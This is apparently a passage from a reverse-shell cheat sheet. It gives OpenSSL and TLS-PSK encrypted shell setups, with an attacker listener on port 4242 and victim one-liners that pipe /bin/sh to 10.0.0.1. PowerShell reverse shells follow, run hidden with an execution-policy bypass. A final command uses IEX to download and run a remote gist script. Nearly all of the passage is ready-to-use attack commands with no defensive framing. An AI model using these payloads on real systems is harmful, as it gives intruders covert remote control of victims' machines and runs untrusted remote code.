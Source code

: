 ### OpenSSL

Attacker:

```
  user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
  user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
  or
  user@attack$ ncat --ssl -vv -l -p 4242

  user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

TLS-PSK (does not rely on PKI or self-signed certificates)

```
  # generate 384-bit PSK
  # use the generated string as a value for the two PSK variables from below
  openssl rand -hex 48
  # server (attacker)
  export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
  # client (victim)
  export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```

### Powershell

```
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
  powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
